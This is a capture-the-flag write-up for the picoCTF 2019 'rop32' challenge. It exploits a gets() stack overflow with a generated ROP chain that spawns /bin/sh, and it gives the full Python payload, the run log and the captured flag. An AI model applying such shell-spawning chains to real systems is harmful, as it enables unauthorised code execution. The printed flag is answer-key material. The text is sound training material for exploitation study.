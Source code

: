 # picoctf2019 rop32

##### As the given hint of this problem, this is a ROP + getshell challenge 
https://2019game.picoctf.com/problems
- vuln
- vuln.c
 ### Exploitation
We can see that both NX and ALSR are enabled, so we can only use ROP to bypass.
```sh
nmlab@nmlab-VirtualBox:~/Desktop$ checksec vuln
[*] '/home/nmlab/Desktop/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```
First view the source code and run the program, it is clear that the gets() function causes overflow.
```sh
nmlab@nmlab-VirtualBox:~/Desktop$ ./vuln
Can you ROP your way out of this one?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```
We want to create a ROP chain to execute /bin/sh, first use the ROPgadget to find all the gadgets. In this challenge we can use the ROPgadget to create a ROP chain using the command :
```
ROPgadget --binary ./vuln  --ropchain --badbytes 0a
```
Note that the argument "--badbytes 0a" is added because if the gets function receives a buffer with a newline, \n, or 0xa in ASCII, it ignores everything after it, so we have to get a payload without any newline character or else our ROP exploit will fail

After generating the ROP chain, we need to add the padding, since the buffer size is 16, the padding will be 28, or we can just simply use gdb to find the overflow offset, the payload is padding plus the ROP chain. The final step is to send the payload and get shell.
```python
def rop():
    # ROPgadget --binary ./vuln  --ropchain --badbytes 0a
    
    p = 'A'*(28) # overflow offset
    
    p += pack('<I', 0x0806ee6b) # pop edx ; ret
    p += pack('<I', 0x080da060) # @ .data
    p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
    p += '/bin'
    p += pack('<I', 0x080da060) # padding without overwrite edx
    p += pack('<I', 0x41414141) # padding
    p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806ee6b) # pop edx ; ret
    p += pack('<I', 0x080da064) # @ .data + 4
    p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
    p += '//sh'
    p += pack('<I', 0x080da064) # padding without overwrite edx
    p += pack('<I', 0x41414141) # padding
    p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806ee6b) # pop edx ; ret
    p += pack('<I', 0x080da068) # @ .data + 8
    p += pack('<I', 0x08056420) # xor eax, eax ; ret
    p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080481c9) # pop ebx ; ret
    p += pack('<I', 0x080da060) # @ .data
    p += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
    p += pack('<I', 0x080da068) # @ .data + 8
    p += pack('<I', 0x080da060) # padding without overwrite ebx
    p += pack('<I', 0x0806ee6b) # pop edx ; ret
    p += pack('<I', 0x080da068) # @ .data + 8
    p += pack('<I', 0x08056420) # xor eax, eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x08049563) # int 0x80

    return p
```
```python
payload = rop()
print payload
print s.recvuntil('?')
s.sendline(payload)
s.interactive()
```
Now we run the exploit script
```sh
Yende-MBP:desktop yenmeng$ python rop32.py 
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] yyymmm@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] Working directory: '/problems/rop32_1_c4f09c419e5910665553c0237de93dcf'
[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 711365
payload:  AAAAAAAAAAAAAAAAAAAAAAAAAAAAk`\xa04c\x05/bin`\xa0AAAAen\x05kd\xa04c\x05//shd\xa0AAAAen\x05kh\xa0 d\x05en\x05Ɂ\x04`\xa0\x92h\xa0`\xa0kh\xa0 d\x05????c\x95\x04
Can you ROP your way out of this one?
[*] Switching to interactive mode

$ $ ls
flag.txt  vuln    vuln.c
$ $ cat flag.txt
picoCTF{rOp_t0_b1n_sH_b6597626}$ $  
```
